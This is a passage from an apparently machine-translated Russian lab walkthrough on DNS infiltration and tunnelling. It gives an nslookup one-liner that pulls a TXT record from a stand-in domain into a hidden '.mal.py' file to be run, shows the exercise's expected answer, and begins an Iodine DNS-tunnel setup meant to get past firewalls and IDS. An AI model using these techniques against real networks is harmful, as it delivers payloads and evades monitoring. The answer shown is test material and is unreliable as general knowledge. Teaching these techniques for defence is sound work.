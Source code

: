 ВАЖНО : ДЛЯ ЭТОЙ ЗАДАЧИ ИСПОЛЬЗУЙТЕ ДОМЕНnodrc.comВМЕСТО badbaddoma.in

Вы можете использовать ту же команду, что и в [Задаче 9] DNS-инфильтрация - Демонстрация .

nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py

Имейте в виду, что вам нужно будет настроить раздел 'grep' и использовать соответствующие символы для сопоставления. Например, если текстовое значение из записи TXT начинается с 'G6...', вам нужно будет использовать 'grep G6'.

### Ответьте на вопросы ниже
Чтобы ответить на этот вопрос, следуйте инструкциям в файле ЗАДАНИЯ.

Введите вывод из выполненного файла Python
```commandline
4.4.0-186-generic
```
## Задание 11
В предыдущих двух задачах мы увидели, как запросы и ответы DNS могут использоваться для проникновения и выполнения полезных нагрузок. Компании обычно имеют межсетевые экраны, IDS (системы обнаружения вторжений) и/или IPS (системы защиты от вторжений) для предотвращения/оповещения, когда нежелательные входящие и исходящие протоколы проходят через их сеть. Единственный протокол, который редко отслеживается компаниями, — это DNS . Благодаря этому хакеры могут обходить множество «нежелательных» протоколов, используя туннелирование DNS .

Демо

Для этой демонстрации мы рассмотрим, как хакер может обойти различные запрещенные веб-сайты, используя HTTP через DNS . Для этого я буду использовать «Iodine». Подробнее о «Iodine» можно прочитать здесь:  Iodine .



Моя настройка следующая:

У меня есть Linux- машина, размещенная на AWS , которая будет выполнять функции DNS- туннельного сервера.
На моем локальном компьютере запущена виртуальная машина Ubuntu , которая будет клиентом DNS- туннеля.
Публичное доменное имя, размещенное на Google Domains ( badbadtunnel.in )
Вот как выглядит конфигурация DNS :



Для начала на обеих машинах должен быть установлен iodine. Если у вас дистрибутив на основе Debian, такой как Kali, он будет в их репозиториях apt .

sudo apt install iodine

йод - Клиент

йодированный - Сервер

На сервере AWS запускаем iodined со следующими аргументами:



Порт - 27001

IP для DNS- туннельного сервера - 10.0.0.1
